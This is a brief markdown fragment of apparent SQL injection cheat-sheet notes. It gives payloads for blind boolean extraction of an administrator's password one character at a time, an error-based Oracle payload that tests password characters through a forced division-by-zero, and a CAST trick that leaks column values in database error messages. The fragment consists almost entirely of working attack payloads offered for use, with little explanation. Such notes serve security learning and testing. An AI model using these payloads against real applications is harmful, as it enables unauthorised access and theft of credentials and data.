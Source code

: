 #sql
determine if the first symbol of password is greater than 'm':
```sql
xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm
```

then try next symbol and so on.

##### Error based SQL
```sql
(SELECT CASE WHEN ((select substr(password,6,1) from users where username='administrator')='a') THEN '' ELSE TO_CHAR(1/0) END FROM dual)
```
convert one type to another
```sql
CAST((SELECT example_column FROM example_table) AS int)
```
example_column value will be displayed in the error
